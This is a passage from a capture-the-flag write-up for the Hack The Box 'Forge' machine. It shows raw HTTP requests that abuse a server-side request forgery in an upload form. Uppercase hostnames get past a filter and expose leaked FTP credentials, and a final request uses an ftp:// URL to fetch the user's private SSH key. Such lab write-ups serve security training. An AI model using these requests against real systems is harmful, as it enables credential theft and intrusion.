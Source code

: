 ```
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

url=http%3A%2F%2FADMIN.FORGE.HTB/announcements&remote=1
```

```
<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=&lt;url&gt;.</li>
    </ul>
</body>
</html>
```

The `/announcements` reveal ftp creds `user:heightofsecurity123!` and additional functionality to `http://admin.forge.htb/uploads`. The admin uploads page allows for a `?u=<url>` option to accept FTP and FTPS along with HTTP and HTTPS.

The following POST request allows the attacker to retrive files via FTP. Here, the post request takes the private ssh key from the user.
```
POST /upload HTTP/1.1
Host: forge.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
Origin: http://forge.htb
DNT: 1
Connection: close
Referer: http://forge.htb/upload
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

url=http%3A%2F%2FADMIN.FORGE.HTB/upload?u=ftp://user:heightofsecurity123!@FORGE.HTB/.ssh/id_rsa&remote=1
```
